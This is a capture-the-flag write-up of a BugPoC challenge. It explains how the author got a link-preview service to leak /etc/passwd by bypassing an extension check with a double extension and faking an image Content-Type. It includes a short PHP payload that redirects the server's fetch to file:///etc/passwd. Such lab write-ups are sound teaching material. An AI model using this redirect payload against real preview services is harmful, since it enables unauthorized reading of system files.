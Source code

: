 # BUGPOC LFI Challenge

### We are given a website [Social Media Sharer](http://social.buggywebsite.com/) and We need to leak **etc/passwd**
  
  ![Social media sharer](1.png)
  
We can write and share posts via social accounts mentioned below
  
After looking into source code there is a javascript file with some functions and some checks.
 
The main function here is **processUrl()**.
 
```js
function processUrl(e) {
    requestTime = Date.now(),
    url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText),
        populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText),
        document.getElementById("website-preview").style.display = "none")
    }
    ,
    t.open("POST", url, !0),
    t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"),
    t.setRequestHeader("Accept", "application/json"),
    data = {
        url: e,
        requestTime: requestTime
    },
    t.send(JSON.stringify(data))
}
```
 
It takes url and makes a post.And then it calls **populateWebsitePreview()** function to fetch the og:image and its tags from the url and loads it to **imgData** .

 ![og:mage](2.png)

I crafted a html with meta tag og:image in my php server 

```html
<html>
<head>

	<meta property="og:image" content="/test.png">

</head>
</html>

```
Placed the ngrok link ,and observe the response there is base64 encoded data of our image file (test.png) .And we also see the incomming requests from the server to our local server.
Well we understand the functionality.It makes request to specified url/value which we place in the content of og:image 

If we place other than jpg,png,svg files in content we get an error `Image Preview Error: Invalid Image URL`

Lets see what checking this ..

### Checks and Bypass :

**Check 1**
- When we place content with image extensions , we getting a **HEAD** requestthen **GET** request which fetches the image ,If we provide any extensions other than jpg,png,svg we didn't get any HEAD incomming request .
- So the server checking the extension we placing, We can bypass this by providing **double extensions** like **test.svg.php**

**index.php**
```html
<html>
<head>

		<meta property="og:image" content="myserver/test.svg.php">

</head>
</html>


```

**Check 2**
- I created a php file with named `test.svg.php` and placed it in my local server and placed the link in content of og:image andthe server returns 
`Image Failed HEAD Test`
- By this error we know there is a check for HEAD method , if we see what is [HEAD request method](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD)
  it only return Headers not reponse body .
- By observing the Incomming HEAD requests for Valid file , we see that it has a **Content-type** for successful request .
- So added **Content-Type: image/svg+xml** in the `test.svg.php`.We got no error there , so it happened , we bypassed HEAD check

```php
<?php

	header("Content-Type: image/svg+xml");

?>
	
```

**LFI**

If we observe clearly we have a **GET** request after the HEAD request to fetch the image content ,so if we redirect the GET request of the image` to file:///etc/passwd` it fetches the etc/passwd content.

So added a **Location** header to `file://etc/passwd` in the above php file.


**test.svg.php**

```php
<?php

	header("Content-Type: image/svg+xml");
	header('Location: file:///etc/passwd');

?>
	
```


place the ngrok link and see the response.

Guess what, 🙌 It worked and  we leaked the etc/passwd

![etc/passwd](3.png)





Thanks for Reading 😇

